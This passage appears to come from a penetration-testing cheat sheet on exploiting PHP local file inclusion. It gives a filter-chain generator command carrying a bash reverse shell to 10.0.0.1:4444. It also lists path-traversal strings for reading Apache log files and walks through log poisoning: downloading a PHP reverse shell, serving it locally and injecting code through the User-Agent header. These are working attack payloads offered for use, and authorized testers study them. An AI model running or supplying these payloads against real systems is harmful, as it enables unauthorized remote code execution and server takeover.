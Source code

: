php_filter_chain_ generator is CLI that generates payload for PHP filter bypass and allow us to RCE.
Below is the payload for reverse shell.

* https://github.com/synacktiv/php_filter_chain_generator

```php
wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py
python3 php_filter_chain_generator.py --chain "<?php system('bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\"')?>"
```
Then copy the output and paste it to the target.

# Log Poisoning

1. Check if You Can Access the Apache Log File

```python
# Debian, Ubuntu Linux
/?page=/var/log/apache/access.log
/?page=../../../../var/log/apache/access.log
/?page=/var/log/apache2/access.log
/?page=../../../../var/log/apache2/access.log

# FreeBSD Linux
/?page=/var/log/httpd-access.log
/?page=../../../../var/log/httpd-access.log

# CentOS, Fedora, RedHat Linux
/?page=/var/log/httpd/access_log
/?page=../../../../var/log/httpd/access_log
```

2. Prepare the Payload for PHP Reverse Shell

```php
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

# Edit the values in the payload
$ip = '<attacker-ip>';
$port = 4444;
```

3. Open Web Server in Local Machine

```python
python -m http.server 80
```

4. Inject PHP Payload in the User-Agent
Send the GET Request with abusing the User-Agent.

The payload can be uploaded to the /shell.php of the target website.
